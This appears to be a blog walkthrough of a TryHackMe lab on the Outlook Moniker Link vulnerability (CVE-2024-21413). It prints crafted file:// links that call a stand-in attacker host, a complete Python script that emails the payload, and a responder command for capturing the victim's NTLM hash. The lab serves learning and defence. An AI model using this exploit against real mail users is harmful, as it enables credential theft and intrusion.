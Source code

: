 ```yaml
---
categories: [CVE-hunt]
tags: [Microsoft RCE]     # TAG names should always be lowercase
author: Darshan
description: The Outlook Moniker Link CVE-2024-21413 vulnerability allows attackers to exploit Remote Code Execution (RCE) via specially crafted email links.
image:
    path: /assets/img/Banners/moniker-link.png
pin: false
---
```


On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of [CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link). Haifei Li of Check Point Research is credited with discovering the vulnerability.

## Scoring of the vulnerability:

| **CVSS** | **Description** |
| --- | --- |
| Publish date | February 13th, 2024 |
| MS article | [https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8 |

## Explanation:

Outlook can render emails as HTML. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers).

but there is Protected view in outlook which opens contents in only read-only mode blocking such as macros.

By using the **`file://`** Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (**`<a href="file://ATTACKER_IP/test>Click me</a>`**). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the **`!`** special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. 

For example: 

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

This vulnerability uses the Component Object Model (COM) technology in Windows. COM is a system for enabling software components to communicate, which helps applications like Outlook interact with other Microsoft programs, such as Word. By exploiting this, an attacker can create a special link that, when clicked, automatically opens the file in Word without Protected View. This method allows attackers to run commands, possibly even malicious code, on the victim's machine without obvious warning signs.

## Exploitation:

For the exploitation we’ll use the TryHackMe’s this lab: https://tryhackme.com/r/room/monikerlink

In this lab we have given a windows machine and the vulnerable Outlook version.

Open that Outlook and we can see our Target: `victim@monikerlink.thm`

![image.png](/assets/img/CVE/image.png)

Now to exploit this vulnerability we have to create a crafted email with moniker link. For that we can use the exploit available on github: 

https://github.com/CMNatic/CVE-2024-21413

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

Few Changes has to be made for this exploit to work:

- Change `ATTACKER_MACHINE` with the IP of attacker’s machine.
- Change `MAILSERVER` with the IP of the Victim’s machine.

Other than this we require a SMTP/SMB server to ensure the email sent bypasses common email validation checks such as SPF (Sender Policy Framework), DKIM (DomainKeys Identified Mail), and DMARC (Domain-based Message Authentication, Reporting, and Conformance).

For this we’ll use the `responder` command. It acts as a rogue server to intercept network authentication requests by responding to services.

Command:

```python
responder -I <interface_name (such as tun0,ens5)>
```

After setting us server we’ll run this code:

![image.png](/assets/img/CVE/image%201.png)

Check the Outlook’s mail box

![image.png](/assets/img/CVE/image%202.png)

Click that button and we get the NTLM hash of the victim.

![Screenshot 2024-11-01 235959.png](/assets/img/CVE/image%203.png)

This is how the vulnerability is exploited and this can be even worse. Attacker can literally get the Remote Code Execution on the victim’s machine.

*Thank you for reading!! ;)*
